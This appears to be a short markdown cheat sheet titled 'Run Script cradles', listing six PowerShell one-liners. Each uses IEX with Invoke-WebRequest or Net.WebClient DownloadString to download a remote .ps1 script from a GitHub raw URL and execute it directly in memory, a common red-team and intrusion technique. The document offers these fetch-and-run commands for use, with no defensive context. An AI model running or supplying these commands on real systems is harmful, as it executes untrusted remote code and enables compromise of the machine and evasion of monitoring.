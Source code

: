 # Run Script cradles

iex (iwr "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1")

IEX (Invoke-WebRequest -Uri "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1").Content

iex ((Invoke-WebRequest -Uri "https://raw.githubusercontent.com/conma293/mvp/main/1.ps1").Content)

IEX((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1'))

iex ((New-Object System.Net.webclient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')).content

IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/conma293/mvp/main/1.ps1')
